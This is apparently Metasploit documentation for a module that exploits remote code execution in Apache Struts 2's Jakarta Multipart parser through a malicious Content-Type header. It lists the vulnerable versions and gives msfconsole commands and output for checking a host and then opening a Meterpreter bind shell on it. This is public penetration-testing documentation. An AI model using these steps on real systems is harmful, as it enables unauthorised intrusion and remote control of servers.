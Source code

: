 ```struts2_content_type_ognl``` is a module that exploits Apache Struts 2's Jakarta Multipart
parser, which makes it possible to perform arbitrary code execution with a malicious HTTP
```Content-Type``` value.

## Vulnerable Application

Apache Struts version 2.3.5 - 2.3.31, and 2.5 - 2.5.10 are vulnerable.

You can download these versions here with any version of Apache Tomcat:

http://archive.apache.org/dist/struts/

You will also need to install a Struts 2 showcase application, which can be found here:

https://mvnrepository.com/artifact/org.apache.struts/struts2-showcase

## Options

**TARGETURI**

The path to a struts application action

**VHOST**

The HTTP server virtual host. You will probably need to configure this as well, even though it is
set as optional.

## Demonstration

**The Check Command**

The ```struts2_content_type_ognl``` module comes with a check command that can effectively check
if the remote host is vulnerable or not. To use this, configure the msfconsole similar to the
following:

```
set VERBOSE true
set RHOST [IP]
set TARGETURI [path to the Struts app with an action]
```

When the module is in verbose mode, the ```check``` command will try to tell you the OS information,
and whether or not the machine is vulnerable. Like this:

```
msf exploit(struts2_content_type_ognl) > check

[+] Victim operating system: Linux
[+] 10.1.11.11:8080 The target is vulnerable.
```

**Exploiting the Host**

After identifying the vulnerability on the target machine, you can try to exploit it.

The exploit supports mainly two platforms: Windows and Linux. To see a list of available payloads,
try to do ```show payloads```, and pick one. The following example demonstrates us exploiting a
vulnerable Ubuntu host:

```
msf exploit(struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.1.11.11          yes       The target address
   RPORT      8080                yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /struts2-showcase/  yes       The path to a struts application action
   VHOST                          no        HTTP server virtual host


Payload options (linux/x86/meterpreter/bind_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DebugOptions  0                no        Debugging options for POSIX meterpreter
   LPORT         4444             yes       The listen port
   RHOST         10.1.11.11       no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf exploit(struts2_content_type_ognl) > run

[*] Started bind handler
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
{"Server"=>"Apache-Coyote/1.1",
 "Set-Cookie"=>"JSESSIONID=548FF051466E6C1F3AAE814E385057DE; Path=/; HttpOnly",
 "Content-Type"=>"text/html;charset=UTF-8",
 "Content-Length"=>"6335",
 "Date"=>"Tue, 14 Mar 2017 21:04:06 GMT"}
[*] Sending stage (1495599 bytes) to 10.1.11.11
[*] Meterpreter session 5 opened (192.168.1.11:50671 -> 10.1.11.11:4444) at 2017-03-14 16:04:36 -0500

meterpreter >
```
